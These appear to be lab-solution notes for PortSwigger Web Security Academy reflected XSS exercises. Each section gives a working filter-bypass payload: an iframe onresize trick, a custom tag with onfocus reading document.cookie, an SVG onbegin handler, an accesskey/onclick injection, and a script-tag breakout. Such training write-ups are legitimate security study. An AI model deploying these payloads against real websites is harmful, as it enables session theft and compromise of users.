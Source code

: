 https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

```
We can find that the <body> element working with some attribute
The event onresize seem to be exploit by change the iframe size

Exploit server body:
<iframe src="https://0a980028046e83d3800d8f890049000a.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
-> <iframe src="https://0a980028046e83d3800d8f890049000a.web-security-academy.net/?search="><body onresize=print()>" onload=this.style.width='100px'>
```

# Lab: Reflected XSS into HTML context with all tags blocked except custom ones

```
Exploit server body

<script>
location = 'https://0ae0009804b9bf1680ba994a008300fe.web-security-academy.net/?search=%3Cabc+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```


# Lab: Reflected XSS with some SVG markup allowed

Use the cheat-sheet
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

Payload:
```html
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```


# Lab: Reflected XSS in canonical link tag

```
/?%27accesskey=%27x%27onclick=%27alert(1)
-> /?'accesskey='x'onclick='alert(1)
```

# Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped

```
Try to inject a full payload
<script>alert(1)</script>

Then we can see that the </script> match with the <script>

Final

</script><script>alert(1)</script>
```
